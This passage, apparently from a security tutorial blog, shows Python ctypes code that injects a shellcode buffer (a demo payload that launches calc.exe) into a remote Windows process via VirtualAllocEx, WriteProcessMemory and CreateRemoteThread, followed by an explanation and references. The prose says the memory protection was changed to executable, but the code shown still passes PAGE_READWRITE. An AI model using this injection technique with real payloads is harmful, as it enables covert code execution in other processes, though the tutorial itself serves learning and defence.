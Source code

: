 buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += "\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += "\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += "\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += "\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

# Get handle to process
hprocess = windll.kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, PID)
if not hprocess:
    print(WinError())
    sys.exit(0)

# Allocates space for shellcode
baseaddr = windll.kernel32.VirtualAllocEx(hprocess, None, len(buf), MEM_COMMIT_RESERVE, PAGE_READWRITE)
print(WinError())

# Writes shellcode to that memory
windll.kernel32.WriteProcessMemory(hprocess, baseaddr, buf, len(buf), byref(BYTES_WRITTEN))
print(WinError())

# Create remote thread to execute that code
if not windll.kernel32.CreateRemoteThread(hprocess, None, 0, baseaddr, 0, 0, byref(THREAD_ID)):
    print(WinError())
    sys.exit(0)
print("Thread ID: 0x%08x" % THREAD_ID.value)
{% endhighlight %}
</figure>

This injection method follows the same pattern of code, OpenProcess, VirtualAllocEx, WriteProcessMemory and CreateRemoteThread. Except this time when calling CreateRemoteThread we pass the startaddress as the memory we just allocated.

There are a few changes, PAGE_READWRITE has been changed to 0x40 which enables execute/read/write for the memory being allocated. And the calls to GetModuleHandle and GetProcAddress have been removed as they are not needed here.

There are other more complex methods of injecting code into a process and getting the process to execute it, these will be covered in a later post. If your looking for more info on process injection check out the references.

## References
<https://www.endgame.com/blog/technical-blog/ten-process-injection-techniques-technical-survey-common-and-trending-process>

<https://www.endgame.com/blog/technical-blog/hunting-memory>

<https://www.christophertruncer.com/injecting-shellcode-into-a-remote-process-with-python/>

<http://rwnin.net/?p=5>

<http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html>

<https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html>
